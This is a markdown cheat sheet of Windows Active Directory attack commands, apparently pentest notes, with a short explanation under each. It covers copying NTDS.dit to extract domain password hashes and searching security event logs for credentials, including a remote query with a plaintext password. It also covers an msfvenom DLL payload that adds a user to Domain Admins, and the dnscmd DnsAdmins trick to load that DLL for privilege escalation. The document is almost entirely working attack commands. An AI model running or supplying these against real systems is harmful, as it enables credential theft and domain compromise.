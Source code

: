 #### Copy files with ROBOCOPY
```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
- Uses `ROBOCOPY` to copy the `NTDS.dit` file, often part of a domain controller's state information.

#### Searching security event logs
```cmd
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
- Queries the security event logs for entries containing `/user`, providing insights into user activities.

#### Passing credentials to wevtutil
```cmd
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
- Executes a remote query against security logs on `share01` using specified credentials, filtering for `/user`.

#### Searching event logs with PowerShell
```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
- Filters security logs for events with ID 4688, where command lines include `/user`, utilizing PowerShell for parsing.

#### Generate malicious DLL
```cmd
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
- Creates a DLL payload that adds a user to the domain admins group, for use in DLL hijacking or side-loading attacks.

#### Loading a custom DLL with dnscmd
```cmd
dnscmd.exe /config /serverlevelplugindll adduser.dll
```
- Configures the DNS server to load a custom plugin DLL, potentially for persistence or privilege escalation.

#### Finding a user's SID
```cmd
wmic useraccount where name="netadm" get sid
```
- Retrieves the Security Identifier (SID) for the specified user account.

#### Checking permissions on DNS service
```cmd
sc.exe sdshow DNS
```
- Shows the security descriptor for the DNS service, indicating who has permissions to manage it.
